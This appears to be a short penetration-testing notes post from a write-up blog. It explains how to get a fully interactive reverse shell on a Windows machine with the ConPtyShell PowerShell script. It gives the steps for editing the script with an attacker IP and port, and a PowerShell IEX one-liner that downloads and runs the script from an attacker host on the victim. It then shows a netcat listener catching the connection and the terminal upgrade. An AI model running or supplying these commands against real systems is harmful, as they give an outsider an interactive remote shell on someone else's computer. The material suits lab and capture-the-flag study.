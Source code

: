 ```yaml
---
description: >-
  Fully Interactive TTY (Windows)
title: Fully Interactive TTY (Windows)              # Add title here
date: 2023-01-31 08:00:00 -0600                           # Change the date to match completion date
categories: [07 Persistence, Fully Interactive TTY (Windows)]                     # Change Templates to Writeup
tags: [windows persistence, interactive tty, conpty]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### ConPTY
1) Download the [Invoke-ConPTYShell.ps1](https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1) script in our local machine.

2) Modify the final line on the script as follows exchange the IP and remote Port of our local machine as well as the stty size:
```powershell
class MainClass
{
    static void Main(string[] args)
    {
        Console.Out.Write(ConPtyShellMainClass.ConPtyShellMain(args));
    }
}

"@;
Invoke-ConPtyShell -RemoteIp 10.0.0.2 -RemotePort 3001 -Rows 43 -Cols 186
```

3) This command line will download and execute this file from the victim machine so you need to open your -RemotePort first:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/Invoke-ConPtyShell.ps1')
```
> For the reverse shell is imperative to use netcat without rlwrap.
{: .prompt-warning }

4) Once that we receive the shell we need to Ctrl+Z and execute the command stty as usual:
```bash
# Rev Shell
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.175] 49877
^Z
zsh: suspended  nc -lvnp 1234
┌──(root㉿kali)-[~]
└─# stty raw -echo; fg
```
5) Finally double click Enter and that will be it...
Examples:
[Outdated](https://shuciran.github.io/posts/Outdated/#fnref:full-tty-windows)